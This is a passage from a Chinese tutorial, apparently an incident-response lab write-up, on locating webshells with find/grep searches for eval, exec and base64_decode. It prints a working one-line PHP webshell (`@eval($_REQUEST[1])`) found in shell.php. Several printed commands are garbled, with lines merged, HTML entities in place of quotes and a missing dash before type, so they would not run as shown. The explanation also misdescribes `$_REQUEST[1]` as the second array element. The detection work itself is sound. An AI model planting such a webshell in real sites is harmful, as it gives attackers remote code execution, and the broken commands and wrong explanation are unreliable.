     * WebShell可能会包含文件操作函数，用于读取、写入或修改文件：

      * PHP: `fopen()`​, `fwrite()`​, `file_get_contents()`​, `file_put_contents()`​
      * ASP: `FileSystemObject`​
4. **网络操作**

    * WebShell可能会包含网络操作函数，用于与远程服务器通信：

      * PHP: `fsockopen()`​, `curl_exec()`​, `file_get_contents('http://...')`​
      * ASP: `WinHttp.WinHttpRequest`​

上面刚刚也说了我们可以尝试定位一些特殊的后缀文件，例如：.asp、.php、.jsp、.aspx。

命令：

	//搜索目录下适配当前应用的网页文件，查看内容是否有Webshell特征  
	find ./ type f -name " *.jsp&quot; | xargs grep &quot;exec(&quot;find ./ type f -name &quot;* .php" | xargs grep "eval("  
	find ./ type f -name " *.asp&quot; | xargs grep &quot;execute(&quot;find ./ type f -name &quot;* .aspx" | xargs grep "eval("

	//对于免杀Webshell，可以查看是否使用编码  
	find ./ type f -name "*.php" | xargs grep "base64_decode"

一个一个进行尝试即可；

	find ./ type f -name "*.php" | xargs grep "eval("

> 1. ​`xargs`​：`xargs`​命令用于将输入数据重新格式化后作为参数传递给其他命令。在这个命令中，`xargs`​将`find`​命令找到的文件列表作为参数传递给`grep`​命令。
> 2. ​`grep "eval("`​：`grep`​命令用于搜索文本，并输出匹配的行。这里`"eval("`​是`grep`​命令的搜索模式，用于查找包含`eval(`​字符串的行。

可以看见这里PHP结尾的文件都不太正常；

	<?php phpinfo();@eval($_REQUEST[1]);?>

这句想必如果大家之前有接触过web的都不会太陌生；

1. ​`<?php phpinfo(); ?>`​：

    * ​`<?php`​ 是 PHP 代码的开始标记。
    * ​`phpinfo()`​ 是一个内置的 PHP 函数，用于输出关于 PHP 配置的大量信息，包括 PHP 版本、服务器信息、环境变量、PHP 扩展等。这个函数通常用于调试和获取服务器配置信息。
    * ​`?>`​ 是 PHP 代码的结束标记。
2. ​`@eval($_REQUEST[1]);`​：

    * ​`@`​ 符号在 PHP 中用于抑制错误信息的输出。如果 `eval()`​ 函数执行时发生错误，错误信息将不会被显示。
    * ​`eval()`​ 是一个 PHP 函数，它将传入的字符串作为 PHP 代码执行。这非常危险，因为它允许执行任意代码，这可能导致安全漏洞，如远程代码执行（RCE）。
    * ​`$_REQUEST`​ 是一个超全局变量，它包含了 `$_GET`​、`$_POST`​ 和 `$_COOKIE`​ 的数据。在这个上下文中，它被用来获取通过 HTTP 请求传递的参数。
    * ​`[1]`​ 表示从 `$_REQUEST`​ 数组中获取第二个元素（数组索引从 0 开始计数）。这意味着代码将执行 `$_REQUEST`​ 数组中第二个元素的值作为 PHP 代码。

所以很明显shell.php是一个病毒文件，那我们定位一下它的目录过去查看一下内容；

​![在这里插入图片描述](assets/net-img-f0afc8c211f147a88c5b185730e70029-20240628211453-4u8l0d3.png)​
